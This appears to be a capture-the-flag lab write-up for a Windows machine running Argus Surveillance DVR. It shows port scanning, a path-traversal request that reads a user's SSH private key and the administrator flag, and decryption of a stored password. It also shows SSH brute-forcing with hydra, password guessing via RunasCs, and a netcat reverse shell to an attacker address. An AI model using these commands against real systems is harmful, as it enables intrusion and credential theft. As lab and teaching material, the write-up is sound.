 # DVR4

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.179
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 14:10 +08
Nmap scan report for 192.168.201.179
Host is up (0.17s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

SSH is open on this Windows machine, so let's take note of that.&#x20;

### Argus Surveillance --> LFI SSH Key

Port 8080 hosted an Argus Surveillance instance:

<figure><img src="../../../.gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

There are quite a few exploits for this software:

```
$ searchsploit argus                         
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Argus Surveillance DVR 4.0 - Unquoted Service Path         | windows/local/50261.txt
Argus Surveillance DVR 4.0 - Weak Password Encryption      | windows/local/50130.py
Argus Surveillance DVR 4.0.0.0 - Directory Traversal       | windows_x86/webapps/45296.txt
Argus Surveillance DVR 4.0.0.0 - Privilege Escalation      | windows_x86/local/45312.c
----------------------------------------------------------- ---------------------------------
```

The LFI one looks the easiest to exploit, and it involves using `curl`:

{% code overflow="wrap" %}
```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]
```
{% endcode %}

It works, so now we just need to find out what to read. I know that SSH is open, so we should be looking for a SSH private key of some user. On the website, we can view the users to see 2:

<figure><img src="../../../.gitbook/assets/image (121) (5).png" alt=""><figcaption></figcaption></figure>

`viewer` is one them, and we can try to read their private key:

```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2Fviewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAuuXhjQJhDjXBJkiIftPZng7N999zteWzSgthQ5fs9kOhbFzLQJ5J
Ybut0BIbPaUdOhNlQcuhAUZjaaMxnWLbDJgTETK8h162J81p9q6vR2zKpHu9Dhi1ksVyAP
<TRUNCATED>
```

Using this, we can `ssh` into the machine as `viewer`:

<figure><img src="../../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Password Decryption --> SYSTEM Shell

I tested the LFI in reading the administrator flag, and it actually worked:

{% code overflow="wrap" %}
```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FAdministrator%2FDesktop%2fproof.txt&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
<FLAG>
```
{% endcode %}

This means that the application is being run by the administrator instead of `viewer`. There were other exploits that we didn't use yet. I found that the Weak Password Encryption was one of them. This involved reading the password hash from the configuration files of Argus.&#x20;

```
C:\ProgramData\PY_Software\Argus Surveillance DVR>type DVRParams.ini
<TRUNCATED>
LoginName0=Administrator
Password0=ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8                                    
```

We can decrypt this hash easily using the script:

```
$ python3 50130.py 

#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] ECB4:1
[+] 53D1:4
[+] 6069:W
[+] F641:a
[+] E03B:t
[+] D9BD:c
[+] 956B:h
[+] FE36:D
[+] BD8F:0
[+] 3CD9:g
[-] D9A8:Unknown
```

The last character is unknown. When looking at the script, it doesn't seem to map special characters within the dictionary. In this case, we can create a wordlist of the special characters.&#x20;

```
$ cat /usr/share/seclists/Fuzzing/special-chars.txt > wordlist.txt
$ sed -i -e 's/^/14WatchD0g/' wordlist.txt
```

Afterwards, we can attempt to brute force the `ssh` access using `hydra`:

```
$ hydra -l administrator -P wordlist.txt 192.168.201.179 ssh
```

However, this didn't work for some reason, so maybe the administrator does not have SSH access. Instead, I brute forced the passwords one by one with `RunasCs.exe` to check which worked.&#x20;

Eventually one worked:

```
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g# whoami                               
[-] RunasCsException: CreateProcessWithLogonW failed with 1326                               
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g$ whoami                               
dvr4\administrator
```

Great! Now we just need to get a reverse shell. The exploits earlier have the `x86` tag, meaning that this is a 32-bit Windows computer and we should be using `nc32.exe` for a reverse shell.

Then, we just need to execute it:

```
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g$ "C:\Windows\Tasks\nc.exe -e cmd.exe 1
92.168.45.191 21"
```

<figure><img src="../../../.gitbook/assets/image (97) (4).png" alt=""><figcaption></figcaption></figure>
